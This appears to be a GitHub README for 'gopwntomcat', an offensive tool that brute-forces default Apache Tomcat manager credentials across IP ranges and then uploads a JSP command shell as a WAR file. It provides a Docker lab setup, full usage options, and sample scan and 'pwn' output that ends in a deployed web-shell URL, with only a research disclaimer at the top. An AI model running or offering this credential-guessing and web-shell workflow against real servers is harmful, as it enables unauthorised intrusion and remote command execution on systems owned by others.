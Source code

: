# DISCLAIMER
This repository is for research purposes only, the use of this code is your responsibility.

I take NO responsibility and/or liability for how you choose to use any of the source code available here. By using any of the files available in this repository, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again, ALL files available here are for EDUCATION and/or RESEARCH purposes ONLY.

# gopwntomcat

This is a small little scanner and exploiting script. It will detect (brute-force) default credentials on a tomcat instance. If you find valid credentials you can use it to upload a command shell or a custom jsp shell.

## Example Environment

I used a docker container to test this script and so can you.

You create two files `tomcat-users.xml` and `context.xml` with the following content. I created them within `/tmp/`.

**tomcat-users.xml**:
```xml
<tomcat-users>
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  <user username="tomcat" password="s3cret" roles="manager-gui,manager-script"/>
</tomcat-users>
```

**context.xml**:
```xml
<Context antiResourceLocking="true" privileged="true" >
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
   <Realm className="org.apache.catalina.realm.CombinedRealm">
    <Realm className="org.apache.catalina.realm.LockOutRealm"
      failureCount="50" lockOutTime="1" >
	    <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
	      resourceName="UserDatabase"/>
    </Realm>
  </Realm>
</Context>
```

Then you start the docker container like so:

```bash
$ docker run \
  --name tomcat \
  -it --rm \
  -p 8080:8080 \
  -v /tmp/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml \
  -v /tmp/context.xml:/tmp/context.xml \
  tomcat \
  /bin/bash -c "mv /usr/local/tomcat/webapps /usr/local/tomcat/webapps2; mv /usr/local/tomcat/webapps.dist /usr/local/tomcat/webapps; cp /tmp/context.xml /usr/local/tomcat/webapps/manager/META-INF/context.xml; catalina.sh run"
```

If this succeeds you will have a tomcat running at http://your-ip:8080 with the manager @ /manager/html and the default login `tomcat:s3cret`.

## Usage
```bash
gopwntomcat v0.0.1
Usage: gopwntomcat -mode [scan|pwn] [mode specific options] (default: mode scan)

Scan options:
	-port		The port to use while scanning		(default: 8080)
	-ssl		Whether or not to use ssl		    (default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-threads	Concurrent threads while scanning	(default: 1)
	-rhost		IP or CIDR - you can define multiple

Pwn options:
	-port		The port to use for connection		(default: 8080)
	-ssl		Whether or not to use ssl	    	(default: false)
	-targeturi	Where the manager app is located at	(default: /manager/html)
	-user		Valid username for logon		    (default: tomcat)
	-pass		Valid password for logon		    (default: tomcat)
	-customjsp	Define custom jsp to upload		    (default: embedded cmd jsp)
	-rhost		Single IP, no multiple -rhost flags allowed

Examples:
	Scan a /24 net with 5 threads and different manager url:
		gopwntomcat -targeturi /custom/path/to/manager/html -rhost 192.168.1.0/24
	Scan multiple ips on different port with ssl:
		gopwntomcat -port 8443 -ssl -rhost 192.168.1.12 -rhost 10.10.10.100
	Pwn a tomcat server you know the credentials of:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret
	Pwn a tomcat server you know the credentials of with custom jsp:
		gopwntomcat -mode pwn -rhost 192.168.1.12 -user tomcat -pass s3cret -customjsp ./custom.jsp

```

## Scan
With the above environment in place a successful scan could look like this:

```bash
$ ./gopwntomcat -rhost 192.168.1.0/24 -threads 5
2021/02/24 14:54:03 Started scan
----------------------------------------------------------------
2021/02/24 14:54:03 Host 192.168.1.223 responded to /manager/html request
2021/02/24 14:54:03 Host 192.168.1.223 requires authentication. Proceeding with password guessing...
Valid credentials found @192.168.1.223 - tomcat:s3cret
----------------------------------------------------------------
2021/02/24 14:54:33 Scan completed
```

## Exploit
After you got valid credentials you can upload a command shell using this command:

```bash
./gopwntomcat -mode pwn -rhost 192.168.1.223 -user tomcat -pass s3cret
2021/02/24 14:57:45 Let the pwn begin
2021/02/24 14:57:45 Fetching sessin ID and CSRF token...
2021/02/24 14:57:45 Uploading and deploying n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB ...
2021/02/24 14:57:45 Uploading 1059 bytes as n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB.war ...
2021/02/24 14:57:45 Upload was successful. Find your shell @ http://192.168.1.223:8080/n7bnhMI7q9zoNJ2XmUsugswWa9QEfjxB/AJ8IVUezjlrg1g4DsKI80PVTinkchs8e.jsp
```

Navigating your browser to the link will result in a webshell showing up:

![screenshot]("screenshot.png)